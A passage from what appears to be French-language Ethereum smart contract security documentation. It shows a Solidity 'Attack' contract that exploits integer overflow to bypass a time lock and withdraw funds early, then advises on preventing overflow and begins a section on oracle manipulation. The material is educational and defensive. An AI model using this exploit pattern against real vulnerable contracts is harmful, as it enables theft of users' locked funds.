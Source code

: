 ```
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### Comment éviter les soupassements et dépassements d'entier

Depuis la version 0.8.0, le compilateur Solidity rejette le code qui entraîne des soupassements et dépassements d'entier. Cependant, les contrats compilés avec une version inférieure du compilateur devraient soit effectuer des vérifications sur des fonctions impliquant des opérations arithmétiques soit utiliser une bibliothèque (par ex., [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) qui vérifie le soupassement/dépassement.

#### Manipulation Oracle {#oracle-manipulation}

[Les Oracles](/developers/docs/oracles/) sourcent des informations hors chaîne et les envoient en chaîne pour les contrats intelligents à utiliser. Avec des oracles, vous pouvez concevoir des contrats intelligents qui interagissent avec des systèmes hors chaîne, tels que les marchés de capitaux, en élargissant considérablement leur application.

Mais si l'oracle est corrompu et envoie des informations incorrectes en chaîne, les contrats intelligents s'exécuteront sur la base d'entrées erronées, ce qui peut causer des problèmes. C'est la base du « problème de l'oracle », qui concerne la tâche de s'assurer que les informations provenant d'un oracle de la blockchain sont exactes, à jour et en temps opportun.

Une préoccupation liée à la sécurité consiste à utiliser un oracle en chaîne, tel qu'un échange décentralisé, pour obtenir le prix au comptant d'un actif. Les plateformes de prêt dans l'industrie [de la finance décentralisée (DeFi)](/defi/) le font souvent pour déterminer la valeur de la garantie d'un utilisateur pour déterminer le montant qu'il peut emprunter.
